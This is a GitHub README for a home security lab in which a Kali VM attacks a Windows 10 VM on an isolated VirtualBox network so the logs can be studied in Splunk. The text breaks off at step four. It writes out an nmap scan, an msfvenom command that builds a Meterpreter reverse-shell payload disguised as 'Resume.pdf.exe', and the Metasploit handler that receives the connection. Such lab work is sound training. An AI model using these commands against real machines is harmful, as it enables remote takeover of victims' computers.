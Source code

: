 # Simulating Cyber Attacks and Log Analysis with VirtualBox and Splunk

## Objective
The project aimed to create a simulated network attack environment using VirtualBox to connect a Windows 10 VM (victim) and a Kali Linux VM (attacker). The primary goal was to execute an attack and analyze the resulting logs with Splunk to understand attack patterns and enhance network security skills.

### Skills Learned

- **Virtual Machine Management:** Setting up and managing virtual machines using Oracle VM VirtualBox.
- **Penetration Testing:** Using Metasploit for vulnerability exploitation and payload delivery.
- **Malware Creation:** Ability to create and deploy custom malware using 'msfvenom' with a reverse TCP payload.
- **SIEM Log Analysis:** Using Splunk for log ingestion, querying, and analysis to detect and investigate suspicious activities.
- **Command-Line Proficiency:** Executing various command-line tools and utilities on both Windows and Linux platforms.
- **Cybersecurity Concepts:** Understanding of attack vectors, defense mechanisms, and network security best practices.

### Tools Used

- Virtualization Software: Oracle VM VirtualBox
- Operating Systems: Windows 10 (Victim) and Kali Linux (Attacker)
- Security Tools: Metasploit Framework, Nmap, Splunk
- Networking: Internal Network Configuration in VirtualBox

## Steps

1. **Network Configuration**:
     * Set both VMs to use an internal network for isolated communication.
     * Verify the connection between the virtual machines using the ping command.
  
2. **Scanning for Open Ports**:
   * On Kali, ran 'Nmap -A 192.168.20.10 -Pn'. This command performs an aggressive scan (-A) on the target IP without pinging the host first (-Pn). It detects open ports, services, OS details, and potential vulnerabilities.
   * After running the command, identified that port 3389 (RDP) is open.

   ![image alt](https://github.com/HemantVarunParas/Cyber-Attacks-and-Log-Analysis-with-VirtualBox-and-Splunk/blob/02ae843a11ce0da73895b2bf4bae0e7cce666d24/Project%20Images/Screenshot%202024-06-28%20131152.png)

3. **Creating Malware**:
     * Used msfvenom to create a malware payload with command 'msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=192.168.20.11 LPORT=4444 -f exe -o Resume.pdf.exe'
     * This command generates a Windows executable (-f exe) with a reverse TCP payload that causes the Windows machine to connect back to the attacker's IP on port 4444, and outputs it as 'Resume.pdf.exe'.

     ![image alt](https://github.com/HemantVarunParas/Cyber-Attacks-and-Log-Analysis-with-VirtualBox-and-Splunk/blob/dc126819e54bc31e9c6ad753d6717cc188d76ed8/Project%20Images/Screenshot%202024-06-28%20135945.png)


4. **Setting Up Metasploit Handler**:
     * Opened 'msfconsole' and configured a handler to listen for incoming connections. Achieved this by using command 'use/exploit/multi/handler' and set the payoad and LHOST/LPORT to match the malware configuration.
     * By setting up a metasploit handler, you set up a listener that waits for the victim's machine to connect back to the attacker's machine. This connection is established when the victim executes the malware, allowing the attacker to gain control over the victim's machine through a Meterpreter session.
   
     <!-- ![image alt](https://github.com/HemantVarunParas/Cyber-Attacks-and-Log-Analysis-with-VirtualBox-and-Splunk/blob/dc126819e54bc31e9c6ad753d6717cc188d76ed8/Project%20Images/Screenshot%202024-06-28%20135945.png)

